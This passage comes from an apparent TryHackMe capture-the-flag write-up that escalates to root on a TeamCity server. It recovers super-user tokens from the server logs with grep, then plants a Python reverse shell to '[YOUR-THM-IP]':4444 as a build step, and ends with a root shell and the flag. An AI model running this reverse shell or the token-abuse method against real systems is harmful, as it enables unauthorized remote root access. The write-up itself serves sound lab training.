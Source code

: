   ```
  -rw-r-----  1 root root      0 Feb  7  2021 manager.2021-02-07.log
  -rw-r-----  1 root root      0 May 19 20:17 manager.2025-05-19.log
  -rw-r-----  1 root root    967 May 19 20:25 teamcity-activities.log
  -rw-r-----  1 root root   2688 May 19 21:20 teamcity-auth.log
  -rw-r-----  1 root root   1272 May 19 20:24 teamcity-cleanup.log
  -rw-r-----  1 root root    374 Feb  6  2021 teamcity-diagnostics.log
  -rw-r-----  1 root root   6978 Feb  6  2021 teamcity-javaLogging-2021-02-06.log
  -rw-r-----  1 root root   3431 Feb  7  2021 teamcity-javaLogging-2021-02-07.log
  -rw-r-----  1 root root   3377 May 19 20:25 teamcity-javaLogging-2025-05-19.log
  -rw-r--r--  1 root root      0 May 19 20:17 teamcity.lock
  -rw-r-----  1 root root   3600 May 19 20:21 teamcity-mavenServer.log
  -rw-r-----  1 root root    156 Feb  7  2021 teamcity-nodes.log
  -rw-r-----  1 root root   1288 May 19 20:22 teamcity-notifications.log
  -rw-r--r--  1 root root      4 May 19 20:18 teamcity.pid
  -rw-r-----  1 root root  19540 May 19 20:24 teamcity-rest.log
  -rw-r-----  1 root root 175699 May 19 21:20 teamcity-server.log
  -rw-r-----  1 root root    784 Feb  7  2021 teamcity-tfs.log
  -rw-r-----  1 root root   2012 May 19 20:25 teamcity-vcs.log
  -rw-r--r--  1 root root    466 May 19 20:17 teamcity-wrapper.log
  -rw-r-----  1 root root    568 May 19 20:20 teamcity-ws.log
  ```

- I checked `TeamCity` directory and found logs inside. On the login page, there is an option to login as Super User without username nor password, just token so I searched for that.

  ```
  sys-internal@vulnnet-internal:/TeamCity/logs$ grep -iR "Token" 2>/dev/null
  catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
  catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
  catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
  catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
  catalina.out:[TeamCity] Super user authentication token: 6299580571815143414 (use empty username with the token as the password to access the server)
  ```

- GOTEM COACH! For me, the last token worked out of these 5. Login to web page and let's get root now.

- So here, create a `New Project, Create Project Manually`, then `Create Build Configuration`, skip VCS Root and then go to `Build Steps`. For both project name and configuration use whatever you like, it doesn't even matter just remember it.
  When you reach `Build Steps`, select Python in first prompt and then select `Custom Script`. In that custom script we put a reverse shell, start a listener and then save the configuration. You should be root on your listener after running it.
  There's a button `Run` in the top right corner. For reverse shell, use Python reverse shell without `python3 -c`

  ```
  import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR-THM-IP]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.255.144] 41192
  /bin/sh: 0: can't access tty; job control turned off
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  THM{e8996faea46df09dba5676dd271c60bd}
  ```